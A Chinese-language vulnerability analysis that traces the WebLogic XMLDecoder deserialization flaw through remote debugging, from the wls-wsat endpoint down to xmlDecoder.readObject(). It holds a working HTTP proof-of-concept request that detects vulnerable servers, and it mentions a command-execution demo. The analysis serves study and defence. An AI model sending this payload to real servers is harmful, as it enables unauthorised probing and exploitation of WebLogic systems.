



weblogic的漏洞中反序列化占大头，反序列化漏洞大体上又分为两类，一类是T3协议，另一类也是T3是XMLDeocder。此外，还有xxe、文件上传等等漏洞。

weblogic 单步调试


先获取xray 一份poc(网上其他任意poc均可)，burp发包，响应里显示了java调用栈，获取 gadget(调用链)。（xray 的 poc 生成方式见 payload_generate.py）


	POST /wls-wsat/CoordinatorPortType HTTP/1.1
	Host: 172.16.1.9:7001
	Content-Type: text/xml
	Content-Length: 875
	
	<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"><java><void class="java.lang.Thread" method="currentThread"><void method="getCurrentWork"><void method="getResponse"><void method="getServletOutputStream"><void method="write"><array class="byte" length="9"><void index="0"><byte>50</byte></void><void index="1"><byte>50</byte></void><void index="2"><byte>53</byte></void><void index="3"><byte>55</byte></void><void index="4"><byte>55</byte></void><void index="5"><byte>51</byte></void><void index="6"><byte>48</byte></void><void index="7"><byte>57</byte></void><void index="8"><byte>49</byte></void></array></void><void method="flush"/></void></void></void></void></java></work:WorkContext></soapenv:Header><soapenv:Body/></soapenv:Envelope></soapenv:Envelope>


这个poc 如果出现 225773091 代表存在漏洞。记录gadget，这里我直接复制下来一段调用栈。


	processRequest:43, WorkContextServerTube (weblogic.wsee.jaxws.workcontext)
	__doRun:866, Fiber (com.sun.xml.ws.api.pipe)
	_doRun:815, Fiber (com.sun.xml.ws.api.pipe)
	doRun:778, Fiber (com.sun.xml.ws.api.pipe)
	runSync:680, Fiber (com.sun.xml.ws.api.pipe)
	process:403, WSEndpointImpl$2 (com.sun.xml.ws.server)
	handle:539, HttpAdapter$HttpToolkit (com.sun.xml.ws.transport.http)
	handle:253, HttpAdapter (com.sun.xml.ws.transport.http)
	handle:140, ServletAdapter (com.sun.xml.ws.transport.http.servlet)
	handle:171, WLSServletAdapter (weblogic.wsee.jaxws)
	run:708, HttpServletAdapter$AuthorizedInvoke (weblogic.wsee.jaxws)
	doAs:363, AuthenticatedSubject (weblogic.security.acl.internal)
	runAs:146, SecurityManager (weblogic.security.service)
	authenticatedInvoke:103, ServerSecurityHelper (weblogic.wsee.util)
	run:311, HttpServletAdapter$3 (weblogic.wsee.jaxws)
	post:336, HttpServletAdapter (weblogic.wsee.jaxws)
	doRequest:99, JAXWSServlet (weblogic.wsee.jaxws)
	service:99, AbstractAsyncServlet (weblogic.servlet.http)
	service:820, HttpServlet (javax.servlet.http)
	run:227, StubSecurityHelper$ServletServiceAction (weblogic.servlet.internal)
	invokeServlet:125, StubSecurityHelper (weblogic.servlet.internal)
	execute:301, ServletStubImpl (weblogic.servlet.internal)
	execute:184, ServletStubImpl (weblogic.servlet.internal)
	wrapRun:3732, WebAppServletContext$ServletInvocationAction (weblogic.servlet.internal)
	run:3696, WebAppServletContext$ServletInvocationAction (weblogic.servlet.internal)
	doAs:321, AuthenticatedSubject (weblogic.security.acl.internal)
	runAs:120, SecurityManager (weblogic.security.service)
	securedExecute:2273, WebAppServletContext (weblogic.servlet.internal)
	execute:2179, WebAppServletContext (weblogic.servlet.internal)
	run:1490, ServletRequestImpl (weblogic.servlet.internal)
	execute:256, ExecuteThread (weblogic.work)
	run:221, ExecuteThread (weblogic.work)


IDEA 开启debug远程调试。添加了 weblogic.jar 到library，根据上面的调用栈

	handle:171, WLSServletAdapter (weblogic.wsee.jaxws)

直接在 weblogic.jar!weblogic.wsee.jaxws.WLSServletAdapter的129行下断点。


因为 poc 是 POST请求，所以不会进入这个if，走下面 141行的handle。

点击handle发现进不去，应该是没添加源码到library，super.handle()表示调用这个类的父类里的handle()方法，在当前类 WLSServletAdapter 拉到最上面，看看它import里有没有有用的信息，因为jar包太多了，我想知道这个类是由哪个jar包负责的。


于是我就搜索 ServletAdapter,看到了import它的class:


定位了这个class

```com.sun.xml.ws.transport.http.servlet.ServletAdapter```

通过一款神器，SearchClassInJar.jar ，根据class名称在 文件夹里找 调用的jar。

	java -jar SearchClassInJar.jar com.类名 文件夹名

效果立竿见影，节省不少时间。


接下来就是把这个jar包添加到library，(File-Project Structure-Modules-Dependencies-添加jar)就可以进入handle() 了。


还有一层，继续跟进，


我们的请求是 POST请求，不走这个if，直接跳到152行。

152 行这行代码我 Force Step into 跟进了，没看到啥有价值的，断点就直接打在155行了。

进入handle():

与调用栈显示的一致，class HttpAdapter 的子类 HttpToolkit
	
	handle:539, HttpAdapter$HttpToolkit (com.sun.xml.ws.transport.http)

(后来了解到 HttpToolkit这个类 是对请求包的封装)


**自己前2次调试的时候忽视了514行 decodePacket 这个函数**，根据函数名猜测可能是对传入的参数解包。步入，


ct 获取 Content-type的值，在181行 调用 decode()函数解析xml数据包。步入，


进入144行，


xmlSoapCodec.decode()对 ContentType进行了检查。步入，


this.getExpectedContentTypes();


isContentTypeSupported() 方法判断 ContentType 是否是 text/xml, 如果是，return true;


 ContentType 是 text/xml,进入else，跟踪到第241行，执行对传入的Message解码，


后面的代码是对Message解码，未进行过滤，


到535行，这个process看起来是个关键函数，加断点跟进。

	 packet = this.head.process(packet, con.getWebServiceContextDelegate(), packet.transportBackChannel);

Force Step into,进到了 WSEndpointImpl,（这里不知道哪里调用的这个WSEndpointImpl类),就接着调试了，


到达第303行，


步入，


继续跟进，


（发现是这个调用顺序，```runSync()->doRun()->_doRun(this.next)->__doRun()```）

继续跟进，


往下走，到了 ```this.next.processRequest(this.packet);```


（前2次到这里都没调试明白，后来看了别人的分析，这里是一直持续循环next，并调用this.next的processRequest()方法）

前几次调试到这里，放弃了 :)


第二次循环，


第三次循环，


第四次循环，


第五次循环，终于到了WorkContextServerTube类，(后面又进行了一次调试，发现不止五次循环```:)``` )


根据前面的调用栈，得知这个WorkContextServerTube类才是触发漏洞的类



<br/>


继续跟进，


var2 为请求包内容，主要存在于这两个属性，_structureStrings,_contentObjects,一个存key,一个存value。这些是 我们发包 传递过去的值。


<br/>


<br/>


<br/>

var3获取 WORK_AREA_HEADER 结构体头，即 work:WorkContext


若非空，进入 readHeaderOld(var3)


 
观察var4 的值,为传入的payload ```<work:WorkContext``` 标签内的核心payload内容(实际执行部分代码)。


接下来进入 receive(var6),


然后发现 ```receiveRequest(var1)```这个方法又进不去，由 WorkContextHelper 找到 ```import weblogic.workarea.WorkContextHelper``` class,用SearchClassInJar.jar搜索搜到三个jar```wlclient.jar，wljmsclient.jar，wlthint3client.jar```，把它们三个导入IDEA lib。

接下来进入 ```receiveRequest(var1)```,


步入 readEntry(),


进入 readUTF(),


接下来进入xmlDecoder.readObject(),一般调试到 xmldecoder.readobject() 这里就结束了，类似于system()这样的命令，调用链，Receive() —> receiveRequest() —> reveiveRequest() —> readEntry() —> readUTF() —> xmlDecoder.readObject()



xmlDecoder.readObject()可以执行命令的测试demo，可以弹出计算器。见附件 ```Xmldecoder文件夹```


那么问题来了，最开始是如何在129行打断点的？可以用逆推法。在最后一个方法处打断点。 https://paper.seebug.org/909/ 这篇文章简单介绍了如何通过现有的线索找到触发点。

## 参考资料


https://paper.seebug.org/487/

http://cache.baiducontent.com/c?m=9f65cb4a8c8507ed19fa950d100b96314a0fdb743ca1804b22818448e435061e5a3dbfed70680704a48726251caf4b5fe1ed35722a012aaa90c89f4aaae1d477719c6269304a8904458347f29e1d74d620e14d99a80e93bfe743e0b9a4d5c85422c951057f83&p=8d6dc64ad4934eab1bac8f211e&newp=8a759a41878912a05aa9df275a53d8224216ed643ad1c44324b9d71fd325001c1b69e7b125231405d6ce7d6304a84d58eaf33678341766dada9fca458ae7c47965&user=baidu&fm=sc&query=weblogic+%B5%F7%CA%D4+10271&qid=bec2228e00002033&p1=11

https://www.cnblogs.com/afanti/p/10222293.html

[weblogic cve-2017-10271 反序列化详细调试](https://blog.csdn.net/sojrs_sec/article/details/103367511)